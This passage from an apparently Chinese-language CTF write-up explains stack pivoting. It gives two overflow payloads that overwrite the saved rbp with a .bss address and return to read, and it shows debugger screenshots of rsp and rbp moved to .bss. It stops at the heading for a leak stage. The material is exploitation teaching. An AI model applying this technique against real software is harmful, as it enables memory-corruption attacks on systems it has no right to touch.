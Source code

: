 带入得到

```bash
read = 0x4011DF
bss=elf.bss()+0x100
payload1 = b'a'*0x30+p64(bss)+p64(read)
```

第二次迁移

此时我们再次输入的值是 ebp 的，根据小端序，ebp 的值大于 esp，那么我们可以按照原栈大小调整 ebp

```bash
read = 0x4011EA
bss=elf.bss()+0x100
payload2 = b'a'*0x30+p64(bss+0x30)+p64(read)
```

然后分两次 send 输入即可

运行效果：

第一次 leave

[![](assets/1705982215-a0da57b39a66abccf9988c5e569bf0a7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121162403-6f4ce278-b836-1.png)

第二次 leave

[![](assets/1705982215-990b6b31acd8b70b8ec36b87a3796352.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121162408-72d0f74a-b836-1.png)

可以看到 rbp 和 rsp 都被迁移到了.bss 段上，此时在后面再返回一次 read，我们就能发现可以直接改 rbp 之后的返回地址了

第三次泄露
